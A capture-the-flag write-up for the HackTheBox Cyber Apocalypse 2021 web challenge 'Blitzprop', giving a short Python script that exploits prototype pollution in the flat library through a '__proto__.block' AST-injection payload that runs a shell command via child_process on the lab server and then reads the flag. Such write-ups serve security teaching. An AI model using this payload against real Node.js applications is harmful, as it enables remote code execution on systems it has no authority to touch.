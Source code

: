 ```yaml
---
name: Blitzprop (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Web
description: Writeup for Blitzprop (Web) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Blitzprop

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/vqR4i730soY/0.jpg)](https://youtu.be/vqR4i730soY?t=952s "HTB Cyber Apocalypse CTF 2021: Blitzprop")

## Challenge Description

> To exploit this, you need to use a ‘prototype pollution’ vulnerability within the flat library in order to gain RCE against the target. This requires a request to the server to 'pollute' the JavaScript objects, then a second request to trigger the payload. Overall, it was a really interesting box!

## Solution

```py
from pwn import *
import requests

TARGET_URL = 'http://188.166.172.13:31177'

# https://blog.p6.is/AST-Injection/
result = requests.post(TARGET_URL + '/api/submit', json={
    "song.name": "The Goose went wild",
    "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync(`cp flagz8gWv static/flag`)"
    }
})

flag = requests.get(TARGET_URL + '/static/flag').text
success(flag)
```

Flag: `CHTB{p0llute_with_styl3}`
